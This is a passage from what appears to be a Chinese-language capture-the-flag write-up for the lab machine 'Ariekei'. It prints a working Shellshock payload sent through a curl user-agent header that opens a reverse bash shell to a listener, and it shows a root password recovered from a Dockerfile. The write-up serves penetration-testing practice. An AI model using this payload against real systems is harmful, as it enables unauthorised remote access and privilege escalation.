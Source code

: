 ```bash
$  curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/172.24.0.253/1234 0>&1;'" http://localhost:8080/cgi-bin/stats
```

![image-20200920095414187](assets/Ariekei_65.assets/image-20200920095414187.png)

![image-20200920095453512](assets/Ariekei_65.assets/image-20200920095453512.png)

我们之前在 blog-test目录下看到的dockerfile内容，。

我们有blog的root密码了。

```bash
root:Ib3!kTEvYw6*P7s
```

![image-20200920095559242](assets/Ariekei_65.assets/image-20200920095559242.png)

su一下。并不可以，。需要tty

![image-20200920095646147](assets/Ariekei_65.assets/image-20200920095646147.png)
